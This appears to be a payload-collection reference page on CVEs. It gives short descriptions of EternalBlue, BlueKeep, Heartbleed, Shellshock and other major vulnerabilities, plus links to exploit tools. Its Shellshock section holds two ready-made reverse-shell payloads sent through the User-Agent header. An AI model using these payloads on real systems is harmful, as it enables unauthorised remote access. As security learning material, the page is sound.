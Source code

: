 # Common Vulnerabilities and Exposures

A CVE (Common Vulnerabilities and Exposures) is a unique identifier assigned to a publicly known cybersecurity vulnerability. CVEs help standardize the naming and tracking of vulnerabilities, making it easier for organizations, security professionals, and software vendors to share information and manage risks associated with these vulnerabilities. Each CVE entry includes a brief description of the vulnerability, its potential impact, and details about affected software or systems.

## Summary

* [Tools](#tools)
* [Big CVEs in the last 15 years](#big-cves-in-the-last-15-years)
    * [CVE-2017-0144 - EternalBlue](#cve-2017-0144---eternalblue)
    * [CVE-2017-5638 - Apache Struts 2](#cve-2017-5638---apache-struts-2)
    * [CVE-2018-7600 - Drupalgeddon 2](#cve-2018-7600---drupalgeddon-2)
    * [CVE-2019-0708 - BlueKeep](#cve-2019-0708---bluekeep)
    * [CVE-2019-19781 - Citrix ADC Netscaler](#cve-2019-19781---citrix-adc-netscaler)
    * [CVE-2014-0160 - Heartbleed](#cve-2014-0160---heartbleed)
    * [CVE-2014-6271 - Shellshock](#cve-2014-6271---shellshock)
* [References](#references)


## Tools

- [Trickest CVE Repository - Automated collection of CVEs and PoC's](https://github.com/trickest/cve)
- [Nuclei Templates - Community curated list of templates for the nuclei engine to find security vulnerabilities in applications](https://github.com/projectdiscovery/nuclei-templates)
- [Metasploit Framework](https://github.com/rapid7/metasploit-framework)
- [CVE Details - The ultimate security vulnerability datasource](https://www.cvedetails.com)


## Big CVEs in the last 15 years

### CVE-2017-0144 - EternalBlue

EternalBlue exploits a vulnerability in Microsoft's implementation of the Server Message Block (SMB) protocol. The vulnerability exists because the SMB version 1 (SMBv1) server in various versions of Microsoft Windows mishandles specially crafted packets from remote attackers, allowing them to execute arbitrary code on the target computer.

Afftected systems:
- Windows Vista SP2
- Windows Server 2008 SP2 and R2 SP1
- Windows 7 SP1
- Windows 8.1
- Windows Server 2012 Gold and R2
- Windows RT 8.1
- Windows 10 Gold, 1511, and 1607
- Windows Server 2016


### CVE-2017-5638 - Apache Struts 2

On March 6th, a new remote code execution (RCE) vulnerability in Apache Struts 2 was made public. This recent vulnerability, CVE-2017-5638, allows a remote attacker to inject operating system commands into a web application through the “Content-Type” header.


### CVE-2018-7600 - Drupalgeddon 2

A remote code execution vulnerability exists within multiple subsystems of Drupal 7.x and 8.x. This potentially allows attackers to exploit multiple attack vectors on a Drupal site, which could result in the site being completely compromised.


### CVE-2019-0708 - BlueKeep

A remote code execution vulnerability exists in Remote Desktop Services – formerly known as Terminal Services – when an unauthenticated attacker connects to the target system using RDP and sends specially crafted requests. This vulnerability is pre-authentication and requires no user interaction. An attacker who successfully exploited this vulnerability could execute arbitrary code on the target system. An attacker could then install programs; view, change, or delete data; or create new accounts with full user rights.


### CVE-2019-19781 - Citrix ADC Netscaler

A remote code execution vulnerability in Citrix Application Delivery Controller (ADC) formerly known as NetScaler ADC and Citrix Gateway formerly known as NetScaler Gateway that, if exploited, could allow an unauthenticated attacker to perform arbitrary code execution.

Affected products:
- Citrix ADC and Citrix Gateway version 13.0 all supported builds
- Citrix ADC and NetScaler Gateway version 12.1 all supported builds
- Citrix ADC and NetScaler Gateway version 12.0 all supported builds
- Citrix ADC and NetScaler Gateway version 11.1 all supported builds
- Citrix NetScaler ADC and NetScaler Gateway version 10.5 all supported builds


### CVE-2014-0160 - Heartbleed

The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic software library. This weakness allows stealing the information protected, under normal conditions, by the SSL/TLS encryption used to secure the Internet. SSL/TLS provides communication security and privacy over the Internet for applications such as web, email, instant messaging (IM) and some virtual private networks (VPNs).


### CVE-2014-6271 - Shellshock

Shellshock, also known as Bashdoor is a family of security bug in the widely used Unix Bash shell, the first of which was disclosed on 24 September 2014. Many Internet-facing services, such as some web server deployments, use Bash to process certain requests, allowing an attacker to cause vulnerable versions of Bash to execute arbitrary commands. This can allow an attacker to gain unauthorized access to a computer system.

```powershell
echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc 10.0.0.2 4444 -e /bin/sh\r\n"
curl --silent -k -H "User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.0.0.2/4444 0>&1" "https://10.0.0.1/cgi-bin/admin.cgi" 
```


## References

* [Heartbleed - Official website](http://heartbleed.com)
* [Shellshock - Wikipedia](https://en.wikipedia.org/wiki/Shellshock_(software_bug))
* [Imperva Apache Struts analysis](https://www.imperva.com/blog/2017/03/cve-2017-5638-new-remote-code-execution-rce-vulnerability-in-apache-struts-2/)
* [EternalBlue - Wikipedia](https://en.wikipedia.org/wiki/EternalBlue)
* [BlueKeep - Microsoft](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2019-0708)

